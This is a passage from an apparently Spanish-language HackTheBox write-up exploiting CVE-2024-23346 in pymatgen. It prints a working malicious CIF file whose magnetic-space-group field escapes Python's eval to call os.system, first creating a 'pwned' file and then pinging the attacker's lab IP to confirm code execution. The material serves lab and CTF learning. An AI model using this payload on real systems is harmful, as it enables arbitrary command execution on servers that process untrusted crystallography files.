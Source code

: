 - https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346


### File Upload

Editaremos el archivo `example.cif` para convertirlo en un archivo malicioso que ejecute instrucciones a nivel de sistema

~~~ bash
# The following field contains an embedded Python code exploit
_space_group_magn.transform_BNS_Pp_abc  
'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ 
(
    # Retrieve the second element in the Method Resolution Order (MRO) of the empty tuple `()`, which is the `object` class.
    *[().__class__.__mro__[1]]
    +
    # Concatenate with the string "__subclasses__".
    ["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]  # Find the subclass named "BuiltinImporter"
[0].load_module("os")                # Load the `os` module
.system("touch pwned");              # Execute the system command `touch pwned`
0,0,0'

# Other CIF data fields
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
~~~

- **En primera instancia, validaré la ejecución de comandos en el servidor con una traza ICMP a mi máquina atacante**

El archivo se vería de la siguiente forma haciendo un ping dentro de la función `system()` a mi IP de HackTheBox

~~~ python
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.254");0,0,0'
~~~

Ponemos a la escucha `tcpdump` y filtramos por el protocolo `icmp` para validar que la máquina nos envíe un `ping`. Ahora renombraremos el archivo para identificarlo más fácilmente

~~~ bash
mv example.cif rce.cif
~~~
